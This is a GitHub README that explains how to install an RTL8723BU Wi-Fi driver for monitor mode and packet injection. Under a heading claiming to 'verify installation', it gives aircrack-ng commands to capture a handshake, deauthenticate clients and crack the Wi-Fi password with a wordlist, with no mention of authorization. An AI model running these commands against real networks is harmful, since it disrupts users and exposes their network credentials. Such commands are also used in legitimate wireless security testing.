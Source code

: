 # Wifi-hacking-rtl8723bu

To use your Realtek Semiconductor Corp. RTL8723BU 802.11b/g/n WLAN Adapter with **aircrack-ng**, you may need to install specific drivers that support monitor mode and packet injection. Here's a general guide to help you with the process on a Linux system:

### Step 1: Update Your System

Before installing any drivers, make sure your system is up to date:

```bash
sudo apt update
sudo apt upgrade
```

### Step 2: Install Required Packages

You'll need some essential packages for compiling the driver:

```bash
sudo apt install build-essential dkms git
```

### Step 3: Download and Install the Driver

1. **Download the Driver Source Code**:

   You can find the driver for the RTL8723BU on GitHub. Clone the repository using the following command:

   ```bash
   git clone https://github.com/rehan5039/Wifi-hacking-rtl8723bu.git
   ```

2. **Build and Install the Driver**:

   Navigate to the downloaded directory and build the driver:

   ```bash
   cd Wifi-hacking-rtl8723bu/rtl8723bu-master
   ```

   ```bash
   make
   ```

   ```bash
   sudo make install
   ```

4. **Load the Driver**:

   Once installed, load the driver using:

   ```bash
   sudo modprobe 8723bu
   ```

### Step 4: Enable Monitor Mode

After installing the driver, you can enable monitor mode using the following command:

```bash
sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set wlan0 up
```

*Note*: Replace `wlan0` with your actual wireless interface name if it's different.

### Step 5: Verify Installation

Verify that your adapter supports monitor mode and packet injection:

```bash
airodump-ng wlan0
```

```bash
airodump-ng -c [channel] --bssid [BSSID] -w  capture wlan0
```

```bash
aireplay-ng --deauth 10 -a [BSSID] wlan0
```

```bash
aircrack-ng capture.cap -w [wordlist]
```

You should see "Mode:Monitor" next to your wireless interface.

### Troubleshooting

- **Driver Compatibility**: If you face any issues, ensure the driver you are using is compatible with your kernel version.
- **Error Messages**: Check for error messages during the `make` or `make install` process. They can provide clues about what might be going wrong.
- **Reboot**: Sometimes, a simple reboot can help load the necessary drivers correctly.

This should set up your Wi-Fi adapter for use with **aircrack-ng**. If you encounter specific errors or issues, feel free to ask for more detailed troubleshooting!
